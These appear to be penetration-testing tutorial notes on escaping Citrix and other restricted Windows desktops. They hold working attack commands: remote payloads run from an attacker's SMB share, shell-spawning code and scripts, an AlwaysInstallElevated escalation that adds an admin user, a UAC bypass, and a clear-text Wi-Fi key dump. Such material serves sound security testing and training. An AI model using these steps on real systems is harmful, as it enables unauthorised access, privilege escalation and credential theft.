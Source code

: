 https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/
https://node-security.com/posts/breaking-out-of-windows-environments/
# Citrix Breakout

Many enterprises utilize virtualized desktop platforms like Citrix, AWS AppStream, and Kiosk environments for controlled access. However, improper hardening allows attackers to break out of these restrictive shells and gain access to the full operating system.
## Methodology Overview

1. **Access a Windows dialog box** via apps like Paint or Notepad
2. **Leverage UNC paths** or alternate interfaces to spawn commands or explorer    
3. **Use dropped tools or alternate shells** to interact with the host
4. **Escalate privileges** using known misconfigurations (e.g. AlwaysInstallElevated)
## 1. Triggering Dialog Boxes

Common Citrix-deployed apps like Paint, Wordpad, or Notepad allow access to "File > Open" or "Save As" dialogs.

**Example:**

- Open Paint → File → Open → Dialog appears    
- In "File name", enter UNC path:

```
\\127.0.0.1\c$\users\pmorgan
```

Dialog boxes bypass GPO-based File Explorer restrictions and allow navigation to protected directories.
## 2. File Transfer and Execution via SMB

Even when File Explorer is restricted, dialog boxes permit UNC navigation.

**Start SMB server on attack box:**

```bash
smbserver.py -smb2support share $(pwd)
```

**Access from Citrix:**

```text
\\<attacker-IP>\share
```

Files like `pwn.exe`, `PowerUp.ps1`, `Bypass-UAC.ps1` can be right-clicked and opened directly from the dialog box.

**pwn.exe example:**

```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

Launching this opens a cmd prompt within the Citrix session.
## 3. Alternate File Explorers

Tools like **Explorer++** can be launched to:

- Browse restricted directories    
- Copy files to desktop
- Interact beyond standard Explorer limitations

Being portable, they require no installation.
## 4. Alternate Registry Editors

Group policy may restrict `regedit.exe`. Alternatives include:

- `Simpleregedit`    
- `Uberregedit`
- `SmallRegistryEditor`

These tools can view and modify registry keys without triggering policy blocks.
## 5. Shortcut Hijacking

If `.lnk` (shortcut) files are available:

- Right-click → Properties    
- Change Target to:

```
C:\Windows\System32\cmd.exe
```

- Run the shortcut to spawn a shell    

If no shortcut exists, copy or create one via SMB or PowerShell.
## 6. Script-Based Execution

Drop scripts like:

```batch
:: evil.bat
cmd
```

When `.bat`, `.vbs`, or `.ps1` are auto-associated, executing them opens consoles or executes payloads without needing a direct shell or GUI prompt.
## 7. Privilege Escalation

Once a shell is obtained, escalate using standard methods.

**Example: AlwaysInstallElevated**

Check with:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both are `1`, use PowerUp to exploit:

```powershell
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```

Execute the generated `.msi` to create a new admin user.
## 8. Bypass UAC

If user is in Administrators group but restricted by UAC:

```powershell
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

Run elevated shell and verify using:

```cmd
whoami /priv
whoami /all
```

Now able to access directories like `C:\Users\Administrator`.
## 9. Wireless Credential Dump (if Citrix is on a local host)

```cmd
netsh wlan show profile
netsh wlan show profile <SSID> key=clear
```

Useful if the Citrix session is tunneled over Wi-Fi and not bridged.
## Summary

| Technique                    | Purpose                             |
| ---------------------------- | ----------------------------------- |
| File Dialog via Paint        | Bypass file system restrictions     |
| UNC paths in dialogs         | Browse host or attacker SMB share   |
| Run tools from share         | Launch custom payloads (`pwn.exe`)  |
| Explorer++                   | Replace locked-down File Explorer   |
| .lnk Shortcut Modification   | Spawn cmd via altered shortcut      |
| Registry Editor alternatives | Modify registry without regedit.exe |
| Script execution             | Drop `.bat`/`.ps1` to spawn shells  |
| AlwaysInstallElevated        | Exploit for privilege escalation    |
| UAC bypass (e.g. Sysprep)    | Bypass consent prompt and elevate   |
